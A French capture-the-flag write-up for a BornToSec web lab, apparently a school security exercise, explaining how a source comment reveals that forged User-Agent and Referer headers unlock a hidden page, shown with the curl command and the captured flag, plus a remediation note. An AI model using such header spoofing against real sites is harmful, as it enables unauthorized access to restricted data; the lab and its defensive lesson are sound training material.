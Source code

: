 # User-Agent Bypass

## Exploitation

En bas de la page princpal, il y a un lien `BornToSec`:

```html
<a href="?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c"><li>&copy; BornToSec</li></a>
```

http://192.168.122.55/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

right clic -> examiner la cible -> read source code

On trouve un commentaire :

```
You must cumming from : "https://www.nsa.gov/" to go to the next step
Let's use this browser : "ft_bornToSec". It will help you a lot.
```

On va donc modifier notre requete avec ce `User-Agent` et ce `Referer`:

```bash
$> curl 'http://192.168.99.100/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' \
-H 'User-Agent: ft_bornToSec' \
-H 'Referer: https://www.nsa.gov/' | grep flag

The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 
```

## Resolution

Ne pas mettre de conditionnel sur le `User-Agent` ou le `Referer` pour acceder a des donnees sensibles car n'importe quel utilisateur peut les modifier dans sa requete.
